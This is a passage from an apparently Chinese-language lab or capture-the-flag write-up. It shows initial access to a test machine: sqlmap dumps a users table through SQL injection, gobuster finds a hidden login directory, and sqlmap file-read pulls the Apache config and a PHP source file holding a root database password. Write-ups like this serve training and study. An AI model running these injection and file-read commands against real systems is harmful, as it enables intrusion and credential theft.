 `sqlmap` 确认后台数据库为MySQL，并且该注入点为DBA权限。

# **二、初始访问**

## **1. 漏洞利用：从SQL注入到后台源码泄露**

利用SQL注入点，我们首先尝试获取数据库中的用户信息。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://192.168.205.245/news.php?title=1" --batch -D news_db -T users --dump
...
Database: news_db
Table: users
[2 entries]
+----+-----------+----------+
| id | password  | username |
+----+-----------+----------+
| 1  | password1 | user1    |
| 2  | password2 | user2    |
+----+-----------+----------+
...
```

获取到的用户名和密码 (`user1:password1`) 看起来是无效的测试数据。接着，使用 `gobuster` 对网站目录进行爆破，发现一个隐藏目录 `/littlesecrets/`，其中包含一个登录页面 `login.php`。

由于数据库中的凭据无效，我们的策略转向读取Web服务器上的文件，以获取后台登录的真实逻辑。通过读取Apache的配置文件 `/etc/apache2/apache2.conf`，我们发现网站的根目录被修改为 `/var/www/he110wor1d`。

```bash
# 从apache2.conf中发现的关键配置
<Directory /var/www/he110wor1d/>
        Options -Indexes
        AllowOverride None
        Require all granted
</Directory>

<VirtualHost *:80>
    DocumentRoot /var/www/he110wor1d
...
```

利用这个信息，我们成功读取了 `login.php` 的源代码，并发现了数据库的连接密码。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sqlmap -u "http://192.168.205.245/news.php?title=1" --batch --file-read="/var/www/he110wor1d/littlesecrets/login.php"
...
$servername = "localhost";
$username = "root";
$password = "i_love_sing_dance_rap";
$dbname = "news_db";
...
```
